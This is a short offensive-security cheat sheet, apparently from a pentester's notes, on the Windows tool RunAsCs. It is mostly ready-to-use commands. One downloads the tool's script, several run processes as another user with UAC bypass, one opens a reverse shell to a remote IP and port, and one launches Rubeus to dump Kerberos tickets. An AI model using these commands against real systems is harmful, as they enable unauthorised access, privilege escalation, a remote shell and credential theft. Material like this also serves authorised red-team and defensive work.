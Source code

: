 # RunAsCs

% windows, RunAsCs

#plateform/windows #target/remote  #cat/RECON

## Download
```powershell
wget https://raw.githubusercontent.com/antonioCoco/RunasCs/master/Invoke-RunasCs.ps1 -O Invoke-RunasCs.ps1
```


##  run as
```powershell
RunAsCs.exe -UserName <user> -Password '<password>' -Domain <domain_fqdn> -LogonType <logon_type|2> -BypassUac -Command "cmd /c klist" 
```

## Reverse shell  
```powershell
RunAsCs.exe -UserName <user> -Password '<password>' -Domain <domain_fqdn> -LogonType <logon_type|2> -BypassUac -Command cmd.exe -Remote <ip>:<port> 
```

## dump certificates (Rubeus)
```powershell
RunAsCs.exe -UserName <user> -Password '<password>' -Domain <domain_fqdn> -LogonType <logon_type|2> -BypassUac  -Command "c:\users\jubeaz\Documents\Rubeus.exe dump /nowrap"
```
